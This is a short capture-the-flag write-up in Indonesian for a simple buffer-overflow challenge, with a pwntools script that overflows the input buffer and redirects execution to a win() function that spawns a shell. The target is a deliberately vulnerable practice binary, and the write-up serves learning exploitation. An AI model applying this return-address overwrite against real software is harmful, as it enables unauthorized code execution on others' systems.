 # bof
---
A Simple bof for you!
nc challenges.traboda.com 8031
# Solver
---
Diberikan sebuah file c dan binary. Ini overflow biasa karena tidak adanya PIE. Terdapat fungsi ```win()``` yang akan membuat shell. Yaudah tinggal cari offset untuk overflow ditambah address dari ```win()``` . Scrtiptnya berikut
```
from pwn import *
chall = ELF("./chall")
p = process("./chall")
#00000000004011b6 <win>:
win = p64(0x00000000004011b6)
pattern = "A" * cyclic_find("kaaa")
p.recvuntil("Send it to me then......")
raw_input("GDB gan")
p.sendline(pattern +win)
p.interactive()
```